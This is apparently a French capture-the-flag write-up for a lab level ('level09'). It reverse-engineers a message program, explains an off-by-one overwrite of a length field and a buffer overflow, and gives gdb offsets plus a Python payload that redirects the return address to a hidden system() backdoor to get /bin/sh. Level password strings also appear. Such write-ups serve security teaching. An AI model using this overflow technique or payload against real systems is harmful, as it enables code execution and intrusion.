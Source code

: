 ```
level09 : fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

```c
int main()

{
  puts(
      "--------------------------------------------\n|   ~Welcome to l33t-m$n ~    v1337        |\n- -------------------------------------------"
      );
  handle_msg();
  return 0;
}
```

```c
void handle_msg()

{
  char user [140];
  long local_3c[5];
  long local_14;
  
  local_3c = {0, 0, 0, 0, 0};
  local_14 = 140;
  set_username((long)user);
  set_msg(user);
  puts(">: Msg sent!");
  return;
}
```

Avec la suite du programme on constate que les locales de la fonction sont une structure:

```c
struct S_message {
	char message[140];
	char username[40];
	int len;
}
```

```c
void set_username(long value)

{
  long i;
  char *tmp;
  char string [17];
  int offset;
  
  tmp = string;
  for (i = 16; i != 0; i = i + -1) {
    *tmp = 0;
    tmp = tmp + 1;
  }
  puts(">: Enter your username");
  printf(">>: ");
  fgets((char *)string,128,_stdin);
  for (offset = 0; (offset < 41 && (*(char *)((long)string + (long)offset) != '\0'));
      offset = offset + 1) {
    *(char *)(value + 140 + (long)offset) = *(char *)((long)string + (long)offset);
  }
  printf(">: Welcome, %s",(char *)(value + 140));
  return;
}
```


```c
void set_msg(char *param_1)

{
  long i;
  undefined8 *tmp;
  undefined8 message [128];
  
  tmp = message;
  for (i = 128; i != 0; i = i + -1) {
    *tmp = 0;
    tmp = tmp + 1;
  }
  puts(">: Msg @Unix-Dude");
  printf(">>: ");
  fgets((char *)message,1024,_stdin);
  strncpy(param_1,(char *)message,(long)*(int *)(param_1 + 180));
  return;
}
```

Ici nous pouvons voir que le strncpy prends comme longueur l emplacement de la structure + 180m ce qui correspond donc a notre int len. Donc a la fin de notre utilisateur nous devons absolument lui donner la taille des 208 écritures.

```c
void secret_backdoor()

{
  char local_88 [128];
  
  fgets(local_88,128,_stdin);
  system(local_88);
  return;
}
```

On peux voir que la fonction secret_backdoor n'est pas appeler et qu'elle contient ce donc on a besoin, l'appel de 'system' avec un la possibilité de lui donner notre propre chaîne grave a fgets.

![[Pasted image 20240809225318.png]]

Le programme tourne en 64 bits, donc nos adresses devrons être sur 8 octets.

On lance le programme dans gdb et on va récupérer l'adresse de l'EIP un fois dans la fonction 'handle_msg'

```
b handle_msg
c
```

![[Pasted image 20240809234842.png]]

Il y a juste un push qui a ete effectue donc notre RIP se situe en seconde position.

![[Pasted image 20240810011712.png]]

```
Adresse ou est le RIP : 0x7fffffffe3c8
```

Comme on peut le voir que notre frame a une longueur de 208:

```
0x7fffffffe300 - 0x7fffffffe3d0 = d0 = 208
```

En analysant le programme nous pouvons voir que celui-ci nous demande d'entrer un 'username' et un 'message', le username est placer en fin de chaîne et juste a la suite nous avons la longueur en mémoire, nous allons devoir la reecrire. 
Dans le code nous pouvons voir que l'offset de la variable pour l'username est de 40 + 1 pour la len.
Il nous faut donc remplir au max le username + ajout 0xd0 pour la len
et pour le message lui sera écris au haut de la stack de la fonction handle_msg() ou l offset est de 208.

Nous allons donc faire un script qui fait ceci:

```
python -c "print '0' * 40 + '\xd0'" > /tmp/lv9
python -c "print '0' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1] + '\n/bin/sh\n'" >> /tmp/lv9
(cat /tmp/lv9; cat) | ./level09
```

nous ajoutons "/bin/sh" afin que la fonction du syscall reçois directement la destination a exécuter (non obligatoire).

Nous devons l'appeler de manière un peu différente, c'est a dire qu'on le met entre () et on va appeler deux fois 'cat' afin de garder notre stdin ouvert.

![[Pasted image 20240809231337.png]]

![[Pasted image 20240810013109.png]]


j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE